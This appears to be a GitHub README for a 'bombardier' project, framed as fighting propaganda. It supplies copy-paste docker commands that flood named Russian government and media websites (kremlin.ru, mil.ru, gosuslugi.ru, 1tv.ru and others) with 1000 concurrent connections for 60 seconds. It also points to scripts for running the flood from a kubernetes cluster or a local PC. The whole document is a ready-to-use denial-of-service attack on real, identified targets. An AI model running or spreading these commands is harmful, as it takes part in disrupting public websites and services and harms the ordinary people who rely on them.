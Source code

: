 # bombardier
Fight agains propoganda

If you have kubertnetes cluster `./run_all_kuber.sh`
<br>
From local PC `./run_all_docker.sh`
<br>
or easiest way 

`docker run -ti --rm alpine/bombardier -c 1000 -d 60s -l http://kremlin.ru`
<br>
`docker run -ti --rm alpine/bombardier -c 1000 -d 60s -l https://mil.ru`
<br>
`docker run -ti --rm alpine/bombardier -c 1000 -d 60s -l http://www.scrf.gov.ru`
<br>
`docker run -ti --rm alpine/bombardier -c 1000 -d 60s -l https://ach.gov.ru`
<br>
`docker run -ti --rm alpine/bombardier -c 1000 -d 60s -l https://epp.genproc.gov.ru`
<br>
`docker run -ti --rm alpine/bombardier -c 1000 -d 60s -l https://www.gosuslugi.ru`
<br>
`docker run -ti --rm alpine/bombardier -c 1000 -d 60s -l https://www.1tv.ru`


<br>
sites
https://mil.ru
<br>
http://www.scrf.gov.ru
<br>
https://ach.gov.ru
<br>
https://epp.genproc.gov.ru
<br>
https://www.gosuslugi.ru
<br>
http://kremlin.ru
<br>
https://www.1tv.ru
